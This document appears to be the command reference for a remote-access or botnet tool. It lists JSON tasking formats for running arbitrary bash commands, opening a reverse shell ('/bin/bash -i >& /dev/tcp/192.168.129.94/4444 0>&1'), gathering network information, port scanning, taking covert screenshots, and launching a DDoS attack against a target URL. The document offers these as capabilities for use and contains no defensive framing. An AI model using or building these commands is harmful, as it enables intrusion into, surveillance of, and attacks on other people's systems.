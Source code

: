 # Command Overview

### 1. **Execute Bash Command**
```json
{
    "command": "execute_bash_command",
    "requirements": [],
    "bash_command": "dir"
}
```

### 2. **Execute Reverse Shell Command**
```json
{
    "command": "execute_bash_command",
    "requirements": [],
    "bash_command": "/bin/bash -i >& /dev/tcp/192.168.129.94/4444 0>&1"
}
```

### 3. **Network Information**
```json
{
    "command": "network_info",
    "requirements": ["psutil"]
}
```

### 4. **Port Scan**
```json
{
    "command": "port_scan",
    "requirements": []
}
```

### 5. **Take Screenshot**
```json
{
    "command": "take_screenshot",
    "requirements": ["Pillow","pyautogui"]
}
```

### 6. **DDoS Attack**
```json
{
    "command": "ddos_attack",
    "target_url": "http://192.168.129.105:8000",
    "request_count": 1000
}
```
